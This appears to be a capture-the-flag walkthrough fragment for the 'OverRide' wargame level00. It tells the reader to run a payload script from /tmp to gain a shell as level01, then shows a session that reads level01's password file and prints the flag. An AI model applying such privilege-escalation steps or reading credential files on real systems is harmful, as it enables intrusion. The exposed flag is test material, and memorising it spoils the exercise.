 Execute Resources/payload.sh on the machine placing it in the /tmp folder (or any other folder you can write in) to get a shell as level01:

```sh
level00@OverRide:~$ /tmp/tmp.sh 
***********************************
* 	     -Level00 -		  *
***********************************
Password:
Authenticated!
whoami
level01
cat /home/users/level01/.pass
uSq2ehEGT6c9S24zbshexZQBXUGrncxn5sD5QfGL
```

